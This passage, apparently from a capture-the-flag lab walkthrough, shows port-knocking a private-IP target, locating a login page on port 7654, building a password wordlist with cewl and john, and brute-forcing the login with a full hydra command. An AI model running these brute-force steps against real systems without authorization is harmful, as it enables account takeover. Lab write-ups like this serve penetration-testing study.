 next we need to create this permutation list which will contain the port numbers mixed up. To do this a python script will be used to iterate the port numbers.

    python -c 'import itertools; print list(itertools.permutations([8890,7000,666]))' | sed 's/), /\n/g' | tr -cd '0-
    9,\n' | sort | uniq > permutation.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553043103117_image.png)


launch the knock.sh script with the target ip as an argument.

    ./knock.sh 192.168.213.129

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553043150312_image.png)


discover port `7654` running a web server and navigate to said server.


![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553042904587_image.png)


click to `login.php`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553042947124_image.png)


before we attempt to hydra this login page. We need to create a wordlist. To do so we can use cewl and john to sift through that list for duplicates.

creating word list from http://pinkydb

    cewl -m3 pinkydb 2>/dev/null | sed 1d | tee cewl.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553043389390_image.png)


next use john

    john --rules --wordlist=cewl.txt --stdout | tee wordlist.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553043472445_image.png)


now we have a `wordlist.txt` that we can use with hydra

create usernames from our wpscan username enumeration

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553043770499_image.png)


Hydra login page - w/ `wordlist.txt`

    hydra -L username.txt -P wordlist.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password" -vV

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553122584160_image.png)


…
